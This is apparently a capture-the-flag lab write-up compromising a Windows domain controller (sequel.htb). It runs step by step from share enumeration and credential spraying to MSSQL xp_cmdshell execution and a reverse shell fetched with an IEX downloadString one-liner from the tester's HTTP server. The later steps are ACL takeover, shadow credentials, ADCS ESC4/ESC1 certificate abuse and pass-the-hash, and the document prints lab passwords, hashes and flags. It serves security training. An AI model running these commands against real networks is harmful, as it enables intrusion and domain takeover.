## Testing

IP:
```IP
10.129.60.108
```

Given Credentials:
```Usr
rose
```
```Password
KxEPkKe6R8su
```

start: 09:30 Aug 24

ports

```
nmap -p- -Pn -n -vv --min-rate=5000 10.129.60.108 -oG network/nmap_ports.txt
```



DNS, RPC, SMB - Windows WS/Server?

service

```
nmap -p53,135,139,445 -sCV --min-rate=5000 -Pn -vv 10.129.60.108 -oN network/nmap_service.txt
```



SMB signing enabled, no relay


Validating credentials

```
nxc smb 10.129.60.108 -u 'rose' -p 'KxEPkKe6R8su'
```



- Credentials valid via SMB
- OS: Windows 10 / Server 2019 Build 17763 x64
- Hostname: DC01
- Domain: sequel.htb

Information suggest is a Domain controller in an AD environment

Adding IP - Domain, Hostname, FDQN to /etc/hosts


Enumerating Shares

```
nxc smb 10.129.60.108 -u 'rose' -p 'KxEPkKe6R8su' --shares
```



Read access to:
- Accounting Department
- IPC$
- NETLOGON
- SYSVOL
- Users

End 09:50

----
Start 25 aug, 21:05

Machine restart, new IP:

```IP
10.129.232.128
```

Navigating accessible shares

Users:

```
smbclient -U rose //10.129.232.128/Users
```



Nothing interesting to me

Accounting Department:

```
smbclient -U rose //10.129.232.128/Accounting\ Department
```



Getting both xlsx files

Understand what type of files they are

```
file *.xlsx
```



ZIP files

```
unzip accounts.xlsx
```

`docProps, _rels, xl`

Going though them reading its content with batcat, interesting `xl` dir

```
batcat xl/*.xml
```

File sharedStrings.xml contains interesting information like potential usernames and passwords for domain accounts.



Users:

angela:0fwz7Q4mSpurIt99
oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!

The usernames:passwords are paired to a file to verify with a quick "brute force". Short single try list but lose nothing checking password policy

```
nxc smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --pass-pol | tee passpol.txt
```



No lockout threshold so can verify without worries of accounts getting locked out.

Sync time for kerberos

```
sudo ntpdate 10.129.232.128
```

```
kerbrute bruteforce -v -d sequel.htb --dc 10.129.232.128 user_pass.txt
```



It seems kevin, sa and angela are no longer valid users on the domain.
Valid credentials:

```User
oscar
```
```Password
86LxLBMgEWaKUnBG
```

Validating with netexec via SMB

```
nxc smb 10.129.232.128 -u oscar -p '86LxLBMgEWaKUnBG'
```


Enumerating shares with new credentials

```
nxc smb 10.129.232.128 -u oscar -p '86LxLBMgEWaKUnBG' --shares
```



Same permissions as before

End 22:15

----
Start aug 26, 09:30

Enumerating with Bloodhound (rusthound-ce)

```
rusthound-ce -d sequel.htb -u oscar -p '86LxLBMgEWaKUnBG'
```


Launching Bloodhound-CE web GUI with docker
sOJ_MedwoqXLl8maroqp4N34weBtm6AQ

Uploading json files



Adding rose and oscar to owned objects, analyze

Searching Domain Users



Interesting sql_svc (database service account, SQL) and ca_svc (Certificate Authority service account, ADCS)

Querying for shortest path from owned objects



This query dont tell me much, not sure what the ClaimSpecialIdentity is and neither what those groups are.

Querying for templates and enrollment rights




ca_svc is member of Cert Publishers and has GenericAll rights over a certificate template: `dundermifflinauthentication`
CA: `sequel-dc01-ca`

For now im going to save users and use the passwords from before, 3 of them are unmatched and one of them refers to MSSQL so hopefully hits on sql_svc.



Excluding oscar, rose since are already controlled, and krbtgt since those are surely not the passwords for it

Brute forcing

```
nxc smb 10.129.232.128 -u users.txt -p passwords.txt
```



The one I had hope to hit didnt, none did.

Now the question is how do I get to control ca_svc
Searching for ca_svc inbound controls



ryan has WriteOwner control over ca_svc
Searching for ryan inbound controls

No control from my position. All privileged zones



ryan is also member of Remote Management Users
Need to control ryan

Have little idea of how to proceed, oscar and rose seem to have enrollment rights to some certificates.

```
certipy find -u oscar -p '86LxLBMgEWaKUnBG' -target 10.129.232.128
```

Found +30 certificates and 12 enabled certificates. Looking at the txt output I notice lots of certificates with schema version 1 and all controlled by administration entities.

No results with `-vulnerable` flag.

Ending here, will continue later and check a walkthrough for hints if needed.

End: 10:00 aug 26

----
Start 19:00 aug 26

Machine restart. New IP:
```
10.129.232.128
```

*Referenced: https://www.youtube.com/watch?v=fE6BYs4P1t4*

At the start of the video I notice he discovers a lot more ports than me.
Running nmap without sudo showed me only a few of them. It also felt off to be able to run bloodhound collection without seeing LDAP open, also kerberos auth, ..., an error I will never forget, for now on nmap always with sudo.

```
sudo nmap -p- -Pn -n -vv --min-rate=5000 10.129.232.128 -oG ne  
twork/nmap_ports_sudo.txt
```



Now looks better. LDAP, Kerberos, MSSQL, WinRM...

Continuing. Since I only saw those few ports before, I only validated credentials against SMB. Also, got rid off users out of kerbrute calling out they dont exist, adding them back (angela, kevin, sa).

Validating via MSSQL (adding --local-auth)

```
nxc mssql 10.129.232.128 -u users.txt -p passwords.txt --local  
-auth
```


Account valid via MSSQL:
```Username
sa
```
```Password
MSSQLP@ssw0rd!
```

Enumerating MSSQL database

```
mssqlclient.py 'sequel.htb/sa:MSSQLP@ssw0rd!@DC01'
```



Im logged in as dbo (database owner), I should have sysadmin rights, therefore rights to enable xp_cmdshell

```
enable_xp_cmdshell
```



Enabled

```
xp_cmdshell whoami & ipconfig
```



Have RCE

Getting a reverse shell

Copying nishang's Invoke-PowershellTcpOneLine.ps1 to www/ dir
Edit, add local IP and preferred port. Rename to shell.ps1.


Start python http server on www/ dir

```
python3 -m http.server
```

Start listener

```
rlwrap nc -nlvp 9001
```

Call it from MSSQL shell RCE (with nxc, mssqlclient having errors)

```
nxc mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-aut  
h -X 'IEX(New-Object Net.WebClient).downloadString("http://10.10.15.228:8000/shell.ps1")'
```

Got the shell

Context:

```
whoami ; ipconfig
```



Walkthough hint at min 15:30

Listing contents on \



List contents of ExpressAdv_ENU



```
type sql-Confi*
```



Another password: By the name of the parameter seams to be for sql_svc
```Password
WqSZAF6CysDQbGb3
```

Spraying against all users (with continue on success)

```
nxc smb DC01 -u users.txt -p 'WqSZAF6CysDQbGb3' --continue-on-success
```



Password is matched for sql_svc and also for ryan

From previous analysis with bloodhound know that ryan is a member of Remote Management Users. Accessing via WinRM

```
evil-winrm -i DC01 -u ryan -p 'WqSZAF6CysDQbGb3'
```

Context and proof:

```
whoami;ipconfig;type c:\users\ryan\desktop\user.txt
```



user.txt: `fa84fb0a2e43d68704c6079d1669301f`

End: 20:25 aug 26

----
Privilege Escalation

Start 09:20 aug 27

Abusing WriteOwner control over ca_svc

Making controlled account ryan owner of ca_svc

```
owneredit.py -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZ  
AF6CysDQbGb3
```



Granting full control over ca_svc

```
dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target ca  
_svc sequel.htb/ryan:WqSZAF6CysDQbGb3 -dc-ip DC01
```



Shadow credentials

```
certipy shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -account ca_svc -  
dc-ip 10.129.232.128
```



New set
```
ca_svc
```
```
3b181b914e7a9d5508ea1e20bc2b7fce
```

Before with bloodhound analysis saw that Cert Publishers have right to enroll over the DunderMifflinAuthentication template, and ca_svc, now controlled, is a member of that group.

Check with certipy find vulnerable 

```
certipy find -u ca_svc -hashes ':3b181b914e7a9d5508ea1e20bc2b7fce' -target DC01 -vulnerable
```



Name: `DunderMifflinAuthentication`
CA: `sequel-DC01-CA`
Full Control, enrollable, ...
Vulnerable to ESC4
(Client Authentication: True)

Abusing ESC4. Setting 'default' vulnerable configuration, making it ESC1 vulnerable

```
certipy template -u ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea  
1e20bc2b7fce -template DunderMifflinAuthentication -write-default-configuration
```

ESC1 abuse. Inject UPN, request certificate as administrator.

```
certipy req -u 'ca_svc@sequel.htb' -hashes '3b181b914e7a9d5508ea1e20bc2b7fce' -ca sequel-DC01-CA -target 'DC01.sequel.htb' -template 'DunderMifflinAuthentication' -upn 'administrator@sequel.htb' -target dc01.sequel.htb -target-ip 10.129.232.128
```

(Referenced for debugging DNS error)



```
certipy auth -pfx administrator.pfx -dc-ip 10.129.232.128
```



```User
administrator
```
```NTLM
aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```


```
evil-winrm -i 10.129.232.128 -u administrator -H '7a8d4e04986afa8ed4060f75e5a0b3ff'
```

Context and proof

```Powershell
whoami;ipconfig;type c:\users\administrator\desktop\root.txt
```



root.txt: `918c948fe287af182900088911710e6a`

End: 10:15 aug 27

----
---
#### Post testing

##### Sessions:

09:30 - 09:50 = 20 min

21:05 - 22:15 = 1 h, 10 min

09:30 - 10:00 = 30 min

19:00 - 20:25 = 1 h, 25 min

09:20 - 10:15 = 55 min

*Note: Short testing sessions due to being on vacation trip*

Total time (testing): 4 h, 20 min

The test took longer than should mainly because I missed most ports by not running nmap with sudo.

##### Referenced:
- nmap port scan with sudo
- Finding credentials inside `sql-configuration.ini`
- Debugging DNS error on template abuse (ESC1)

##### Lesson:
- ALWAYS run nmap with SUDO
